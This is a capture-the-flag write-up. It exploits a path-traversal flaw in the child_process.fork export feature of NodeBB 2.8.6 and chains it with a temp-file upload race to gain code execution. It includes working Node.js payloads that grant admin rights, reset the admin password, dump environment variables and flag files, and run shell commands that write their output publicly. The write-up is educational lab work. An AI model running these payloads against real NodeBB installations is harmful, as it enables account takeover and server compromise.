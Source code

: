 # Is 10.0 really 10.0?

We are presented with a website on `http://your-instance-ip:10008` refered to as `http://tdc.ctf:10008`.

The website is version 2.8.6 of [NodeBB](https://nodebb.org/), a forum software.

A quick google search reveals the first vulnerability <https://github.com/advisories/GHSA-vh2g-6c4x-5hmp> but with no exploit readily available.

By cloning the repo and browsing the source at the specific patch commit `ec58700f6dff8e5b4af1544f6205ec362b593092` we can investigate the vulnerability.

We notice the changes in `src/api/users.js` and `src/socket.io/user/profile.js` specifically remove the ability to control the path to a `child_process.fork` call:

```js
const child = require('child_process').fork(`./src/user/jobs/export-${type}.js`, [], {
    env: process.env,
});
```

This allows us to run any node script in the context of the server somehow, to actually perform the exploit you need to send the API request over an authenicate websocket connection, and since the actual protocol used is wrapped by Socket.IO the easiest way to interact with it is in your browser, while being logged in.

So created a user `test` with the password `supertest` we now are able to send the following request using devtools.

```js
window.socket.emit('user.exportProfile', { uid: 2, type: '<path traversal here>' })
```

Note the incremental UID here.

Now we just need to find a way to upload our exploit script to the server, which is easier said than done.

The `test` user we created is not an administrator, and the only way to upload anything to the server requires elevated permissions inside the BB system, we as a normal user are limited to certain image formats.

Initially i attempted to craft a polyglot image, since the primary file upload endpoint provided to our test user only accepted images, but it primarly checked the mimetype before performing any checks so we could in theory bypass both the image parser and the mimetype check by crafting a polyglot image.

But the secondary hint given to us in this challenge comes in the form of the ability to see a file listing of the `tmp` directory on the server, which initially contains some non-suspecting nodejs artifacts with little use to us.

What we need is a way to upload a file to the server with the correct extension, and use the provided `/assets/vendor/exploithelp/tryharder.txt` endpoint to retrieve the file name and path.

If we pay attention to the primary file uploading middleware, the one which handles the creation and deletion of the temporary files we see something peculiar:

```js
try {
    const images = [];
    for (const fileObj of files) {
        /* eslint-disable no-await-in-loop */
        images.push(await filesIterator(fileObj));
    }

    helpers.formatApiResponse(200, res, { images });

    return images;
} catch (err) {
    return helpers.formatApiResponse(500, res, err);
} finally {
    deleteTempFiles(files);
}
```

> <https://github.com/NodeBB/NodeBB/blob/7ca37bd6c3b6c39cb40c34b5e9ac1824580e6281/src/controllers/uploads.js#L47>

The `deleteTempFiles` function will always be called no matter which return block is hit, and it will attempt to delete the files provided to it.

What we can do is find a upload endpoint that lets us upload a file with a custom extension as many times as possible until the ratelimiting kicks in, and then we will see something interesting happening:

The `/api/v3/topics/<uuid>/thumbs` endpoint is probably our best bet due to the fact it has the least strict validation middleware, and it has a higher ratelimit than the other endpoints. We can perform the first (valid) upload with a valid image, then we can manually extract the UUID, Cookie and other request headers from the request to be used in our spamming script.

![Alt text](2.png)

> See [this python file](spam_upload.py) for the code.

![Alt text](1.png)

Lots of javascript files suddenly appeared!?

That definitely isn't what the code attempted to do, but it is a result of JavaScripts interesting behavior with regards to asynchronous code.

Digging deeper into the NodeBB codebase we find a shell executable called `nodebb` that performs certain database actions easily for us, at this point in the process i am not sure where i'll find the flag, so we an use this tool to give us additional permissions on the server such as changing the password for the `admin` user with UID 1.

It is also possible to set up a reverse shell from this point on, but i opted to just give myself admin permissions and dump some additional info from the disk in my first attempt.

```js
const fs = require('fs');
const child_process = require('child_process');

// Run node /usr/src/app/nodebb user make admin 2

child_process.execSync('node /usr/src/app/nodebb user make admin 2');
child_process.execSync('node /usr/src/app/nodebb user reset 1 --password superadmin');

const result = {};

result.env = process.env;

function read_directory_and_files(path, filePattern) {
    const files = fs.readdirSync(path).filter(file => file.match(filePattern));

    const result = {};

    for (const file of files) {
        result[file] = fs.readFileSync(path + file, 'utf8');
    }

    return result;
}

const dirs = [
    '/',
    '/usr/src',
    '/usr/src/app',
];

for (const dir of dirs) {
    result[dir] = [
        read_directory_and_files(dir, /.*\.txt/),
        read_directory_and_files(dir, /.*flag.*/),
    ];
}

fs.writeFileSync('/usr/src/app/public/uploads/files/HACKED.txt', JSON.stringify(result));
```

> Initial payload, writing output to a publically accessible file.

Before constructing this payload, i had obviously experimented quite a lot with my own local instance, but when i invoked the exploit via. the websocket connection i was greeted by this empty HACKED.txt:

```json
{
    "env": {
        "NODE_VERSION": "18.14.0",
        "HOSTNAME": "766caac60fb2",
        "YARN_VERSION": "1.22.19",
        "daemon": "false",
        "HOME": "/home/node",
        "PATH": "/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin",
        "PWD": "/usr/src/app",
        "NODE_ENV": "production",
        "silent": "false",
        "CONFIG": "/usr/src/app/config.json",
        "isPrimary": "true",
        "isCluster": "false",
        "port": "4567",
        "VIPSHOME": "/target"
    },
    "/": [
        {},
        {}
    ],
    "/usr/src": [
    {},
    
    ],
    "/usr/src/app": [
        {},
        {}
    ]
}
```

Certainly not very reassuring, but now we have changed the password for the `admin` user, so we can log in and see if we can find anything interesting.

![Alt text](3.png)

I decided to upload additional payloads using this general format instead of again setting up a revshell to explore the system, where we quickly find the flag in the unconventional `/home/node/flag.txt` location.

```js
const fs = require('fs');
const child_process = require('child_process');

const { exec } = child_process;

function runcommandandputoutputinpublic(command) {
    exec(command, (err, stdout, stderr) => {
        if (err) {
            console.log(err);
        }
        
        const result = {
            stdout,
            stderr
        };

        // Write to /usr/src/app/public/uploads/files/output.json

        fs.writeFileSync('/usr/src/app/public/uploads/files/output.json', JSON.stringify(result, null, 4));
    });
}

runcommandandputoutputinpublic('cat /home/node/flag.txt');
```

Where we finally get to find the flag :)

![Flag :O](4.png)

While i was not able to complete this in time for the CTF, it was a really interesting challenge with a lot of potential, even without our trusty `ls.sh`.

```sh
while true
do
	ls -al /tmp > /usr/src/app/public/vendor/exploithelp/tryharder.txt
	sleep 2
done
```

> ls.sh
